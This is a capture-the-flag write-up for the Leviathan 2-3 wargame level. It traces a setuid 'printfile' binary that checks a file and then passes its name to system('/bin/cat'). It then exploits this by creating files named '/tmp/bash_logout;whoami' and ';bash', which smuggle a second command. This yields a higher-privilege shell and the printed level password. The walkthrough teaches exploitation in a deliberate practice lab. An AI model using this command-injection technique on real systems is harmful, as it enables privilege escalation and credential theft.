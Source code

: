 ## Leviathan 2-3
Category: `binary`

## Description
There is no information for this level, intentionally.

## Analysis
```
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ file printfile 
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped
```
As always with binary `strings and trace until it is done'
```
leviathan2@leviathan:~$ strings printfile
...
[^_]
*** File Printer ***
Usage: %s filename
You cant have that file...
/bin/cat %s
;*2$"
...
```
As we can see this binary executes `/bin/cat` with given arguments, let's try some arguments 
```
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access(".bash_logout", 4)                                                                                                                        = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout")                                                                            = 21
geteuid()                                                                                                                                        = 12002
geteuid()                                                                                                                                        = 12002
setreuid(12002, 12002)                                                                                                                           = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 0
+++ exited (status 0) +++

leviathan2@leviathan:~$ ltrace ./printfile
__libc_start_main(0x804852b, 1, 0xffffd784, 0x8048610 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                                                                                                     = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                                                                                                    = 28
+++ exited (status 255) +++

leviathan2@leviathan:~$ ltrace ./printfile ddd
__libc_start_main(0x804852b, 2, 0xffffd784, 0x8048610 <unfinished ...>
access("ddd", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                      = 27
+++ exited (status 1) +++
```
Tried executing a binary with an existing file; no argument; no existing file. Summarizing the information we get, we must provide an existing file to execute `/bin/cat %s`, otherwise nothing will happen. Suppose we need to provide special arguments to execute what we want, i.e. command injection
> Command Injection (theory) - https://owasp.org/www-community/attacks/Command_Injection

> Command Injection (examples) - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/df7172dca1c6ee08fdc110045ea653b087ecb971/Command%20Injection/README.md

I spent a lot of time here
```
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout `whoami` 	# nothing
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout $(whoami) 	# nothing
leviathan2@leviathan:~$ ltrace ./printfile ".bash_logout;whoami"
You cant have that file...
```
After 2 hours of trying, I realized that "the binary checks to see if the file exists, what if I inser chain of commands in the name of the file"
```
leviathan2@leviathan:~$ touch "/tmp/bash_logout;whoami"
leviathan2@leviathan:~$ ./printfile $_		# variable $_ inserts last argument
/bin/cat: /tmp/bash_logout: No such file or directory
leviathan3
```
THIS WORKS! Now we need to call shell and read file with password from leviathan3
```
leviathan2@leviathan:~$ touch "/tmp/bash_logout;bash"
leviathan2@leviathan:~$ ./printfile $_
/bin/cat: /tmp/bash_logout: No such file or directory
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```

